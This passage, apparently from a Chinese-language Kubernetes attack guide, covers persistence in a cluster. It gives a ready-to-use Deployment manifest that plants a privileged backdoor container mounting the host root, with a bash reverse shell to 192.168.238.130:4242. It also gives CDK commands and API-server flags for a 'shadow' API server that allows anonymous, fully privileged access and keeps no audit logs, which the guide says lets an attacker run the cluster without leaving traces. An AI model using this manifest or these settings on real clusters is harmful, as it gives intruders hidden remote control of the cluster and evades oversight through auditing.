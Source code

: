 这里使用Deployment来部署后门

```plain
#dep.yaml
apiVersion: apps/v1
kind: Deployment        #确保在任何时候都有特定数量的 Pod 副本处于运行状态
metadata:
  name: nginx-deploy
  labels:
    k8s-app: nginx-demo
spec:
  replicas: 3       #指定 Pod 副本数量
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: nginx
        image: nginx:1.7.9
        imagePullPolicy: IfNotPresent
        command: ["bash"]   #反弹 Shell
        args: ["-c", "bash -i >& /dev/tcp/192.168.238.130/4242 0>&1"]
        securityContext:
          privileged: true  #特权模式
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory

#创建
kubectl create -f dep.yaml
```

### Shadow API Server

如果部署了一个shadow api server，那么该api server具有和集群中现在的api server一致的功能。同时开启了全部k8s权限，接受匿名请求且不保存审计日志，这将方便攻击者无痕迹的管理整个集群以及进行后续渗透行动。

Shadow API Server的配置与利用：

```plain
配置文件路径：
/etc/systemd/system/kube-apiserver-test.service

#一键部署 Shadow apiserver
./cdk run k8s-shadow-apiserver default

#一键部署将在配置文件中添加了如下选项：
--allow-privileged
--insecure-port=9443
--insecure-bind-address=0.0.0.0
--secure-port=9444
--anonymous-auth=true
--authorization-mode=AlwaysAllow

#kcurl 访问与利用
```